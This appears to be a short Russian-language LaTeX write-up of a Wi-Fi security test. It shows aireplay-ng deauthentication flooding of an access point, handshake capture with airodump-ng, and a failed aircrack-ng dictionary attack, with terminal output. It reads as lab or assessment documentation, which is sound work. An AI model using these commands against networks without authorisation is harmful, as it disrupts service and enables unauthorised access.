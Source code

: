 \documentclass[10pt,a4paper]{article}
\begin{document}
\begin{itemize}
Видим устройство, подключенное к сети. Начинаем пытаться деаутентифицировать данное устройство, чтобы получить hand-shake. 

\begin{lstlisting}
root@ak:/home/alex/dimas# aireplay-ng --ignore-negative-one --deauth 100 -a  00:22:B0:4B:41:05 -h  84:8E:DF:54:DE:D5 wlan0mon
The interface MAC (44:6D:57:7E:EF:E2) doesn't match the specified MAC (-h).
	ifconfig wlan0mon hw ether 84:8E:DF:54:DE:D5
02:25:10  Waiting for beacon frame (BSSID: 00:22:B0:4B:41:05) on channel 2
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
02:25:10  Sending DeAuth to broadcast -- BSSID: [00:22:B0:4B:41:05]
02:25:11  Sending DeAuth to broadcast -- BSSID: [00:22:B0:4B:41:05]
02:25:11  Sending DeAuth to broadcast -- BSSID: [00:22:B0:4B:41:05]
02:25:12  Sending DeAuth to broadcast -- BSSID: [00:22:B0:4B:41:05]
02:25:12  Sending DeAuth to broadcast -- BSSID: [00:22:B0:4B:41:05]
02:25:13  Sending DeAuth to broadcast -- BSSID: [00:22:B0:4B:41:05]
02:25:13  Sending DeAuth to broadcast -- BSSID: [00:22:B0:4B:41:05]
02:25:13  Sending DeAuth to broadcast -- BSSID: [00:22:B0:4B:41:05]
...
\end{lstlisting}

Паралельно слушая данную сеть:
\begin{lstlisting}
root@ak:/home/alex/dimas# airodump-ng wlan0mon --write airdump --bssid 00:22:B0:4B:41:05 -c 2
 CH  2 ][ Elapsed: 48 s ][ 2015-06-04 02:22 ][ WPA handshake: 00:22:B0:4B:41:05                                         
 ...
\end{lstlisting}

И вот, мы получили handshake. Запускаем подбор(не надеясь на положительный результат):

\begin{lstlisting}
root@kali:/home/alex/dimas# aircrack-ng /home/airdump-04.cap -w /home/dictionary.dic 
Opening /home/airdump-04.cap
Read 3839 packets.

   #  BSSID              ESSID                     Encryption

   1  00:22:B0:4B:41:05  OMG                       WPA (1 handshake)

Choosing first network as target.

Opening /home/airdump-04.cap
Reading packets, please wait...

                                 Aircrack-ng 1.2 rc1
Passphrase not in dictionary 

                              1

Quitting aircrack-ng...
\end{lstlisting}

Увы, так и есть. Подбор пароля для WPA2 для данной работы "is out of scope".

\end{itemize}
\end{document}
